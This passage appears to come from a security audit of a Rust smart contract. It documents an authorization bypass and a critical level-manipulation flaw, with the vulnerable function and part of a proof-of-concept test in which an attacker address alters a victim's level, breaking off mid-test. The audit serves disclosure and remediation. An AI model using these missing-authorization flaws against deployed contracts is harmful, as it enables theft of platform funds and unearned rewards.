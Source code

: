 ```rust
    // Verify that the target user is now verified (proving the vulnerability)
    assert!(contract.is_user_verified(&target_user));
}
```

**Result:** Test PASSES, confirming authorization bypass vulnerability in `approve_verification`.

### 5. Level Manipulation Vulnerability

**Severity:** CRITICAL  
**CVE:** CVE-2025-XXXX-005  
**CVSS Score:** 9.8 (Critical)

#### Description
The `check_and_update_level` function in `level.rs` is marked as `pub`, making it publicly accessible. This allows any address to call this function and manipulate any user's level without proper authorization or authentication.

#### Impact
- **Financial Loss**: Users can be artificially boosted to higher levels, gaining better commission rates without meeting requirements
- **System Integrity**: Level progression system is completely bypassed
- **Economic Impact**: Platform loses money due to inflated rewards for unearned levels
- **Trust Impact**: Legitimate users lose confidence in the level system

#### Root Cause
The function is declared as `pub fn check_and_update_level(...)` instead of `pub(crate)`, making it accessible outside the contract module. Additionally, there are no authentication or authorization checks.

#### Affected Code
```rust
// In level.rs - VULNERABLE
pub fn check_and_update_level(env: &Env, user_data: &mut UserData) -> Result<bool, Error> {
    // No authentication or authorization checks
    // Any address can call this function
    // Can modify any user's level data
}
```

#### Proof of Concept
The vulnerability has been confirmed through testing:

```rust
#[test]
fn test_different_address_can_update_level() {
    let env = Env::default();
    let (contract, admin, _) = test_setup::setup_contract(&env);

    // Create victim user and attacker
    let victim_user = Address::generate(&env);
    let attacker = Address::generate(&env);

    // Register both users
    contract.register_with_referral(&victim_user, &admin, &String::from_str(&env, "proof123"));
    contract.approve_verification(&victim_user);
    contract.register_with_referral(&attacker, &admin, &String::from_str(&env, "proof456"));
    contract.approve_verification(&attacker);

    // Verify victim starts at Basic level
    let initial_level = contract.get_user_level(&victim_user);
    assert_eq!(initial_level, UserLevel::Basic);

    // CRITICAL VULNERABILITY: Attacker can manipulate victim's level
    let mut victim_data = contract.get_user_info(&victim_user);
```